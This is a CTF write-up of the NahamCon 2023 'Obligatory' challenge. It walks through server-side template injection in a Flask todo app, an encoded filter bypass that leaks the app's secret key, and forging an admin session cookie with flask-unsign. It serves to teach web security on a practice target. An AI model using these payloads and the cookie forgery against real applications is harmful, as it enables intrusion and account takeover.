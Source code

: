 ```yaml
---
title: Obliagtory - NahamconCTF 2023
date: 2023-06-18
categories: [CTF Writeups]
tags: [CTF, NahamconCTF 2023, SSTI, Filter Bypass]
---
```


NahamCon CTF 2023

*Every Capture the Flag competition has to have an obligatory to-do list application, right???*

## Writeup
Sign Up and Login on the Web Application. The website is a Todo-List tracker

![todo](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/todolist.png)

After creating a task, a message `Task created` is printed. The message can also be controlled via the `success` GET parameter

```
http://challenge.nahamcon.com:PORT/?success=Task%20created
```

The parameter is Vulnerable to **SSTI**

![ssti](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/ssti.png)

```
http://challenge.nahamcon.com:31129/?success={{7*7}}
```

I tried to leak Config items with `{{config.items()}}`, but is blocked by the filter

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/config-waf.png)

{% raw %}
Bypassed with `{{self|attr("\x5f\x5fdict\x5f\x5f")}}` 
{% endraw %}

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

Now that we got the SECRET_KEY, we can forge our own Flask Session and login as Admin

```bash
flask-unsign --sign --cookie "{'id':1}" --secret "&GTHN&Ngup3WqNm6q\$5nPGSAoa7SaDuY"
```

![](https://raw.githubusercontent.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/main/Obligatory/waf-bypass.png)

**Flag obtained after using the newly signed auth-token**

![](https://github.com/jmrcsnchz/NahamCon_CTF_2023_Writeups/raw/main/Obligatory/flag.png)

